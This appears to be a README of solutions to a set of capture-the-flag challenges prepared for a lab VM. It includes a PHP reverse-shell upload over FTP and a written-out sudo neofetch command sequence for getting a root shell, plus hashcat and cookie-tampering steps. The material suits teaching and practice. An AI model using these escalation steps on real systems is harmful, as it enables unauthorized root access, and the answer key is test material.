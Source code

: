 # CTF_material

**CTF challenges prepared for the year 2022/2023** :space_invader:<br/><br/>
 
# Solutions

<img align="right" src="https://user-images.githubusercontent.com/35840617/171266140-a7f88018-c359-4ad1-955d-f96d54bfbdc1.png" width="300">
<br/>


## Pentesting

VirtualBox .ova file of the machine: https://drive.google.com/file/d/1XHEMLLruedvMY8lN_hyr0ykZWspJ9ug0/view?usp=sharing

- **5ud0 m3 (user):**

    Nmap tcp scan shows 3 services on 3 ports:
    ```
    21      FTP     vsftpd 3.0.3
    22      SSH   
    80      HTTP    NGINX 1.18.0 with PHP7.4
    ```
    A shell can be obtained by uploading a PHP reverse shell using ftp (in /var/www/html/contact/) and sending a request to `http://IP/contact/[your_shell].php`
    <br/><br/>


- **5ud0 m3 (root):**

    The user `www-data` which you have a shell access to has sudo access (without password) on `/usr/bin/neofetch` which can be abused to obtain a root shell using the following commands:
    ```
    TF=$(mktemp)
    echo 'exec /bin/sh' >$TF
    sudo /usr/bin/neofetch --config $TF
    ```
    source: https://gtfobins.github.io/gtfobins/neofetch/#sudo
    <br/><br/>


## Misc
- **Git rekt:**

    Quality: 2/5
    
    level: very easy (repeated)

    Use `git log` and `git show` to reveal the redacted password and decrypt the zip file with it<br/><br/>

- **Magic:**

    Quality: 2/5
    
    level: easy (repeated)

    fix the file header `FF D8 FF E0`<br/><br/>
    
- **Brain:**

    Quality: 2/5
    
    level: easy (repeated)

    brainfuck. Could be identified with cipher identifier tools<br/><br/>
    
- **RubberDucky:**

    Quality: 2/5
    
    level: easy
    
    Read the ducky script and decode the base64 python script and read the flag<br/><br/> 

- **Jhin:**

    Quality: 2/5
    
    level: easy
    
    hint: `there is a cat that can defeat this hash`
    
    theme: 
    ```
    Jhin is a character from League of Legends lore. He is a meticulous criminal psychopath who 
    believesmurder is art. Using his gun as his paintbrush, Jhin createss works of artistic 
    brutality See https://universe.leagueoflegends.com/en_GB/story/champion/jhin/ 
    (this link is unrelated to the CTF). He was finally imprisoned by the Ionian forces 
    and they acquired his password protected safe which should contain clues about one of 
    the hardest murder cases in the history of the investigation department!. Ionian engineers 
    somehow managed to extract a hash of the password. Your task is to crack this password! 
    Jhin's long history in Ionia has made it clear that he is obsessed with the number 4 :) 
    and he always wears a mask.
    ```
    
    Crack an md5hash of a 4 characters long password `hashcat -m 0 hash.txt -a 3 ?a?a?a?a`. This is called mask attack<br/><br/>  

## Web
- **Greedy:**
   
   Quality: 2/5
   
   level: easy
   
   theme: 
    ```
    This greedy web admin hates it when people want to GET webpages from him. This time 
    he decided to block all requests (maybe not all!). Try to GIVE him and see what happens.
    ```

   Intercept http request in burpsuite. Replace `GET` verb with `GIVE` which is a custom http verb<br/><br/>

- **Cookie Monster:**
   
   Quality: 2/5
   
   level: easy

   Change cookie value from `Not_delicious` to `delicious` to pass<br/><br/>
    

## Forensics

- **Git desert:**

    Quality: 4/5
    
    level: medium

    Use `git log` to reveal commit history then `git checkout` to recover the deleted `flag.txt` file<br/><br/>


- **Meta:**

    Quality: 1/5
    
    level: very easy

    Exiftool<br/><br/>
   

- **Sun Emojis:**

    Quality: 3.5/5
    
    level: easy to medium
    
     the file is a rubberducky encoded payload and decode it using https://ducktoolkit.com<br/><br/>  
 - **pdfscripting**

    Quality: 2.5/5
    
    level: easy to medium
    
     the pdf includes an injected javascript code which you will compile and it will give you the flag<br/><br/>  
- **Phishme**

    Quality: 3.5/5
    
    level: easy to medium
    
    the email constains a X-Originating-IP header which is used to open a "malicious" website then you are asked to check if its malicious without opening it using a website called virtustotal https://www.virustotal.com/ and the flag will be in the community section<br/><br/> 
 - **1-1 characters**

    Quality: 2/5
    
    level: easy to medium
    
    a pastebin link with a flag encoded in zero width character format, using an online converter will give you the flag <br/><br/>  
    
